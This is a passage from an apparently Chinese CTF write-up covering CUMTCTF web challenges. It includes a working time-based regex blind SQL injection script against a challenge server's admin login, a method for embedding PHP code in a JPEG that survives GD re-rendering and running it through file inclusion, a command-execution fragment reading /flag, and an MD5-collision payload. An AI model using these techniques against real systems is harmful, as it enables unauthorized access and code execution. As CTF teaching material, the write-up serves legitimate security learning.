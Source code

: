 `system("cat /flag")`获得flag

***

#### shell

进去题目，发现有一个登录框，注册用户后登录，发现可以上传图片

扫描网站后台，发现`/admin`目录，测试发现存在注入，为时间+正则盲注，注入脚本：

```python
import requests

url = "http://114.55.36.69:10006/admin/login.php"
# payload = "database()"  web
# payload = "password"

flag = ""

for i in range(1, 50):
    for j in "qazxswedcvfrtgbnhyjumkiolp1234567890{},_-!@#%&=':|<>":
        _data = {
                "username": f"admin' and if(mid(({payload}),{i},1) regexp '{j}',sleep(3),1)#",
                "password": "aaa"
            }
        try:
            r = requests.post(url, data=_data, timeout=3)
        except:
            flag += j
            break
    print(flag)
```

获得管理员密码后登录管理后台，发现存在`?file=CN.html`，猜想这里存在文件包含漏洞

联想到普通用户目录里的文件上传功能，我们得到解题思路：

+ 普通用户上传图片，图片中包含恶意php代码
+ 管理员目录中包含恶意文件，执行代码

这里的图片上传使用了`PHP GD`图片处理库（标志为上传的图片中包含`CREATOR: gd-jpeg v1.0 (using IJG JPEG v80)`），会对图片进行渲染，渲染失败会提示该文件不是`jpg`文件，且会过滤图片中的恶意内容

所以我们上传一个图片，然后再下载下来，对比两个图片的`Hex`，找出未被修改的部分，将那部分内容改写为我们的恶意代码，然后在admin目录中包含恶意文件，即可执行任意代码


#### BlockChain

zeppelin原题，delegatecall函数的漏洞

***

### CUMTCTF双月赛II

#### 签到

```
?0ver=001&0ver1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&0ver2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```
